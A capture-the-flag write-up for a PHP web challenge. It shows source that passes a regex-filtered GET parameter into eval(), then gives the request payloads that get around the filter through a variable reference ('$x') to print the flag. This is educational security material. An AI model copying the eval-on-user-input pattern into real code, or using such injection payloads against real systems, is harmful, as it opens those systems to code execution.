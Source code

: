 # Challenge description

Dali likes PhP because it's weird and has a lot of bugs. Is that really true ?
Link: http://20.119.58.135:1234

**Author: Kahla**

-----------------------------------------------------------

we were provided this php source code

```php

<?php
//Show Page code source
highlight_file(__FILE__);
require "secret.php";
if(isset($_GET["__"])&&isset($_GET["_"])){
$x=$_GET["__"];
$inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
if($inp==="Kahla"){
    die("Hacking Attempt detected");
}
else{
    if(eval("return $inp=".$inp.";")==="Kahla"){
        echo $flag;
    }
    else{
        die("Pretty Close maybe ?");
    }
}
}
?>

```

trying to send **"Kahla"** in the **_** param prints out this prompt

Payload : ``` http://20.119.58.135:1234/?__=&_=Kahla; ``` 

Output : ```Hacking Attempt detected```

We notice that we have the other **__** param too that we haven't trie to use yet 
and it seems sorta useless but its there soo we might as well just use it right?

So we know that the code is filtering the word **Kahla** and won't allow us to get the flag with it 
so how about we use the **__** to send it to the **_** param? since it's not verifying that param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$_GET[__] ```

Output : img

well i guess we're pretty close :/ ?
We can't use the **GET** to send the param because the regex won't allow the [] characters 
But notice that we have a **$x** variable in the source code that takes the **__** value !!
all we need to do is just to pass that through the **_** param

Payload : ``` http://20.119.58.135:1234/?__=Kahla&_=$x ```

Output : ``` Securinets{PeehPee_1s_AlWAYs_H3r3} ```

And there's our flag!




